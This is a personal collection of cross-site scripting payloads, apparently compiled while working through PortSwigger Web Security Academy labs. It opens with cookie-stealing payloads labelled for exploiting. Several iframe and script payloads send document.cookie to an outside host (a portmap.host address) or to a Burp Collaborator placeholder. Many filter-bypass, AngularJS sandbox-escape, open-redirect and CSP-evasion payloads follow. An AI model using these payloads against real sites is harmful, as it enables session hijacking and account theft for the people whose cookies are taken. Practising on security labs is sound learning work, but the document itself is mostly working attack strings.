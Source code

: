 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
||||||||||||||||||||||||FOR EXPLOTING|||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101='+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:console.log(document.cookie); location=`http://pip3lee101-64604.portmap.host:64604/?lee101/${location.host}=`+document.cookie;" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

//////////// for cookie stelling HREF
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
HTML HTML HTML entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;
|||||||||||||||||||||||||||||||||||||||||||||

===> OPEN Redirect
http://url.com/?lee101=javascript://%250Alert(document.location=document.cookie)
///////
for anchor HREF inputs this payload to store <a src="javascript:alert(1)">LIKE website</a> ++++===>
javascript:alert(1)
http://foo?&apos;-alert(1)-&apos;


//// for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
<iframe src="javascript:alert('xss');" >
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
\'-alert(1)//
${alert(1)}
<><img src=1 onerror=alert(1)>
</script><script>alert(1)</script>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>


||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url and id payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
/?'accesskey='x'onclick='alert(1)
"><svg><animatetransform onbegin=alert(1)>
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';